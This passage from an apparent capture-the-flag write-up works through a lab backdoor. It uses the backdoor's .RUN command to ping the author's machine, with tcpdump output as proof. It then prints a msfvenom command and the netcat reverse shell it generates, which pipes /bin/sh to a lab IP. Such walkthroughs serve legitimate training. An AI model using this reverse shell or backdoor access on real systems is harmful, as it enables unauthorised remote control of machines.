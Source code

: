 On the backdoor:

~~~
SKIDY'S BACKDOOR. Type .HELP to view commands
.RUN ping -c1 10.9.0.54
~~~

On our machine:

~~~
$ sudo tcpdump ip proto \\icmp -i tun0
dropped privs to tcpdump
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
08:07:33.334986 IP 10.10.204.52 > localhost.localdomain: ICMP echo request, id 1026, seq 1, length 64
08:07:33.335035 IP localhost.localdomain > 10.10.204.52: ICMP echo reply, id 1026, seq 1, length 64
~~~

## #7.6 - Now, use the command "ping [local tun0 ip] -c 1" through the telnet session to see if we're able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)

As we see in the above tcpdump output, we receive the ping request from the backdoor.

Answer: `Y`

## #7.7 - Great! This means that we are able to execute system commands AND that we are able to reach our local machine. Now let's have some fun!

## #7.8

**We're going to generate a reverse shell payload using msfvenom. This will generate and encode a netcat reverse shell for us. Here's our syntax: `msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`**

* **`-p` = payload**
* **`lhost` = our local host IP address**
* **`lport` = the port to listen on**
* **`R` = export the payload in raw format**

**What word does the generated payload start with?**

~~~
$ msfvenom -p cmd/unix/reverse_netcat lhost=10.9.0.54 lport=4444 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 91 bytes
mkfifo /tmp/wqivu; nc 10.9.0.54 4444 0</tmp/wqivu | /bin/sh >/tmp/wqivu 2>&1; rm /tmp/wqivu
~~~

The resulting command starts with `mkfifo`
